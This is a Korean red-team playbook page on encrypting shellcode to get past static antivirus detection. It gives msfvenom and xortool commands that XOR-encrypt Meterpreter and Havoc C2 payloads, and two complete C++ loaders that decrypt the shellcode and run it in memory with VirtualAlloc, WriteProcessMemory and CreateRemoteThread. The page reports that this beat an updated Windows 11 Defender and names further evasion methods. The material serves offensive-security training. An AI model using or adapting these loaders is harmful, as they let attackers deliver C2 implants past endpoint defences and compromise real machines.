

# 쉘코드 암호화

쉘코드 암호화는 로더(Loader)의 페이로드 부분에 들어가는 쉘코드를 실행 전 암호화하여 정적 분석을 우회하는 기법이다. 시중의 많은 C2 프레임워크와 툴들이 생성해내는 쉘코드는 시그니처 당하기 마련이다. 쉘코드를 생성해낼 때 마다 다른 쉘코드가 나오거나 특정 부분을 암호화 혹은 난독화 하는 방법이 있긴 하지만, 바뀔 수 없는 쉘코드의 특정 부분이 시그니처를 당하면 이마저도 무용지물인 경우가 많다. 유명한 예로는 미터프리터(Meterpreter) 쉘코드의 복호화 루틴 자체가 시그니처를 당한 경우다. 이 경우, 쉘코드를 아무리 바꿔봤자 가장 먼저 실행되고 또 중요한 복호화 루틴 자체가 시그니처를 당했기 때문에 정적 분석에서 걸리게 된다.

따라서 많은 악성코드나 오펜시브 시큐리티 툴들을 살펴보면 쉘코드 전체를 암호화 해놓는 기능을 제공한다. 암호화된 쉘코드는 프로세스 인젝션이나 셀프 인젝션을 할 때 런타임 중 복호화 되어 메모리에 쉘코드를 올린 뒤 실행된다.

쉘코드 암호화에는 XOR, RC4, 그리고 AES 암호화가 자주 사용된다. 단, AES의 경우 적용 방법에 따라 AES와 관련된 WinCrypt 윈도우API (`CryptDecrypt`, `CryptHashData`, `CryptDeriveKey` 등) 를 사용하는 경우 IAT에 흔적이 남을 수 있으니 조심해야 한다. 물론 IAT 난독화나 Run-time Dynamic Linking 등의 기법을 통해 흔적을 없앨수도 있다.

### 실습 - 메타스플로잇

실습에서는 간단하게 메타스플로잇 페이로드 빌드 툴인 `msfvenom` 을 이용해 쉘코드 XOR 암호화를 진행해본다. 개념 증명용 쉘코드에 xor 암호화를 적용시킨다.

```
msfvenom -p windows/x64/messagebox text=redteamplaybook title=rtp exitfunc=thread --encrypt xor --encrypt-key redteamplaybook -f c -o x64-msgbox-xor.c
```

이후 나온 쉘코드를 다음의 인젝션 코드를 이용해 복호화 한 뒤 사용한다.

<details>

<summary>encShellcodeCRT.cpp</summary>

```
/*
	Red Team Playbook - Shellcode decryption + CreateRemoteThread example 
	Credits to all open-source authors out there 
*/

#include <iostream>
#include <windows.h>

// credit: Sektor7 RTO Malware Essential Course 
void XOR(unsigned char* data, size_t data_len, char* key, size_t key_len) {
	int j;

	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

int main()
{
	// msfvenom -p windows/x64/exec CMD="calc.exe" --encrypt xor --encrypt-key redteamplaybook -f c
	unsigned char buf[] = < 쉘코드 >

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}

	// XOR decrypt 
	char key[] = "redteamplaybook";
	XOR(buf, sizeof(buf), key, sizeof(key));

	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, sizeof(buf), lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0; 
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1; 
	}
	
	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	return 0; 
}
```

</details>

### 실습 - 하복 (Havoc) 프레임워크

이번 실습은 오픈소스 C2 프레임워크인 하복 (Havoc) 프레임워크를 이용해 진행한다. 먼저 리스너를 생성한 뒤, 쉘코드 페이로드를 만들어 파일시스템에 저장한다. 그 뒤 파이썬 툴인 `xortool` 을 설치하고 `xortool-xor` 를 이용해 파일을 XOR 암호화 한다.

```
pip3 install xortool 
xortool-xor -f demon-raw.bin -s redteamplaybook > demon-xor.bin
```

하복 프레임워크의 경우 C 소스코드 형태의 쉘코드를 지원하지 않고, 오로지 binary 형태만 지원하기 때문에  이를 프로세스 인젝션 코드에 직접적으로 삽입할 수는 없다. 대신 PE 파일안에 리소스 (Resource) 형태로 쉘코드를집어넣어 런타임 중 불러오고, 복호화한 뒤, 인젝션을 실행하면 된다. 예제 소스코드는 다음과 같다.

<details>

<summary>rsrcCRT.cpp</summary>

```
#include <Windows.h>
#include <cstdio>
#include <iostream>
#include "resource2.h"

// credit: Sektor7 RTO Malware Essential Course 
void XOR(unsigned char* data, size_t data_len, char* key, size_t key_len) {
	int j;

	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

int main()
{
	// Resource related API calls 
	HRSRC scRsrc = FindResource(NULL, MAKEINTRESOURCE(IDR_DEMON_BIN1), L"DEMON_BIN");
	if (scRsrc == NULL) {
		printf("[-] FindResource failed: %d\n", GetLastError());
		return 1;
	}
	DWORD scSize = SizeofResource(NULL, scRsrc);
	HGLOBAL scRsrcData = LoadResource(NULL, scRsrc);
	unsigned char* buf = (unsigned char*)malloc(scSize);
	memcpy(buf, scRsrcData, scSize);

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, scSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}

	// XOR Decrypt 
	char key[] = "redteamplaybook";
	XOR(buf, scSize, key, sizeof(key));

	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, scSize, lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0;
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1;
	}

	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	// Self injection, so this process needs to be running as well. Easy and dirty way to do that. 
	Sleep(99999999);

	return 0;
}
```


</details>

실행해보면 최신 윈도우 11 (22H2) 업데이트를 한 디펜더를 우회한 뒤 성공적으로 쉘코드를 실행한다.

<figure><figcaption></figcaption></figure>

### 추가적인 문제점&#x20;

쉘코드 암호화 기법을 사용하면 자연스럽게 생겨나는 추가적인 문제점들이 있다. 이 페이지에서는 다루지 않겠지만, 추후 다른 페이지들에서 이 우회 방법들에 대해 서술한다.&#x20;

1. 엔트로피의 증가: 대부분의 프로그램은 특정 부분이 암호화된 채로 존재하지 않는다. 쉘코드가 크면 클 수록 프로그램 내의 암호화 된 부분이 높기 때문에 전체적인 엔트로피의 증가로 이어진다. 방어자들은 정적 분석을 통해 특정 엔트로피 수치 이상의 프로그램을 발견하면 "수상한 프로그램" 이라고 의심한다. -> 이는 **엔트로피 조절** 기법으로 대처할 수 있다.
2. 복호화 키: 쉘코드 복호화 시 비대칭 암호화는 공격자의 공개키를 항상 구할 수 있다는 가정을 할 수 없기에 사용하지 않는다. 그러면 대칭키를 툴의 어딘가에다가 저장 해놔야할텐데, 그러면 방어자가 그 키를 추출해 쉘코드를 복호화할 수 있게 된다. -> 이는 **Environmental Keying** 기법으로 대처할 수 있다.
3. 메모리상의 평문 쉘코드: 정적 분석은 피했지만, 툴의 실행 이후 동적 분석을 하며 메모리상의 평문 쉘코드를 추출한다면 결국 쉘코드 암호화의 의미가 없어지게 된다. -> 이는 Ekko 와 같은 **인-메모리 쉘코드 Sleep/obfuscation/encryption 기법**으로 대처할 수 있다.

